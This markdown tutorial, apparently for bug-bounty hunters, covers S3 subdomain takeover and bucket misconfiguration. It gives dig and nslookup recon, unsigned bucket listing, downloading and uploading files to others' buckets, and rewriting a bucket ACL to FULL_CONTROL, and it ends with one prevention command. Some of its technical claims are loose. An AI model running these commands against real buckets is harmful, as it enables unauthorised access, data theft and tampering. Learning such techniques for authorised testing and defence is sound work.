 
# Cloud Domain Structure

The cloud domain looks something like this: `https://example.s3-website-us-west-2.amazonaws.com`
- **example** → Bucket name.
- **s3-website** → Proof that it is linked to the cloud (persistent).
- **us-west-2** → Region.
- **amazonaws.com** → The hosting cloud.

## Using `dig` Command to Identify CNAME

We use the `dig` command first to identify the CNAME of the subdomain so that if it doesn't exist, we can perform a Subdomain Takeover.

```bash
dig example.com
dig sub.example.com
dig CNAME sub.example.com   # To get bucket name from the subdomain.
```

### Extracting AWS CNAMEs from a File

If you have a file containing multiple links and want to extract only those with a CNAME associated with AWS, use the following command:

```bash
dig -f [filename] CNAME | grep aws   # Replace [filename] with the actual file name.
```

## What if you don't find the CNAME?

### Answer:
- Check the IPs that appeared. If they belong to the 50 range, like 52 or 54, then they are associated with Amazon AWS.
- Use the `nslookup` command to determine which bucket it is exactly linked to, or check here: [AWS IP Ranges](https://ip-ranges.amazonaws.com/ip-ranges.json)

```bash
nslookup <TargetIP>   # it might show you the CNAME but not the Bucket name, Go to Case (2).
```

## Two Possibilities

1. The domain isn't in use.
2. The domain is in use.

## Case (1): The Domain Isn't in Use

- If you find that the domain isn't in use, buy it and report the Subdomain Takeover vulnerability.

## Case (2): The Domain is in Use

- If you find that the domain is in use, try the following commands to interact with the server:

```bash
aws s3 ls s3://<Bucket_name> --region <Cloud_domain_region>   # Execute the ls command on the server.
```

- If you run `nslookup example.com`, and the Bucket name doesn't appear, use the main domain instead:

```bash
aws s3 ls s3://<Main_domain> --region <Cloud_domain_region>   # You can use --no-sign-request flag if you don't have AWS keys.
```

- After executing this command, if multiple files appear and you want to access one of them, append it to the bucket name (e.g., `s3://bucket_name/file`).

## Vulnerability Name: S3-Bucket-Listing

### Downloading a File from the Server

If you want to download a copy of a file from the server to your device, use:

```bash
aws s3 cp s3://Bucket_name/filename /your/path   # From the server to your device.
```

- Replace `Bucket_name` with the actual bucket name and `filename` with the file you want to download, `/your/path` with the directory where you want to download the file.

### Uploading a File to the Server

If you want to upload a file from your device to the server:

```bash
aws s3 cp /your/path/filename s3://Bucket_name/   # From your device to the server.
```

- Replace `/your/path/filename` with the file you want to upload and `Bucket_name` with the actual bucket name.

### Checking Bucket Permissions

To check the permissions of a specific bucket:

```bash
aws s3api get-bucket-acl --bucket <Bucket_name>
```

This will display the authorized users (Grantees) who have permissions on the S3 bucket and their permission types (e.g., READ, WRITE, FULL_CONTROL).

### Modifying Bucket Permissions

By default, the file is named `acl.json`, so we will download it to our device and modify `WRITE_ACP` to `FULL_CONTROL` to gain access to the server:

```bash
aws s3api get-bucket-acl --bucket <Bucket_name> >> acl.json   # Download from the server.
aws s3api put-bucket-acl --bucket <Bucket_name> --access-control-policy file://acl.json   # Upload to the server.
```

### See Active Buckets Worldwide

To see all active buckets right now, visit: [Gray Hat Warfare Buckets](https://buckets.grayhatwarfare.com)

## How to Prevent an S3 Bucket from Being Public?

To block public access:

```bash
aws s3api put-public-access-block --bucket <BUCKET_NAME> --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
```
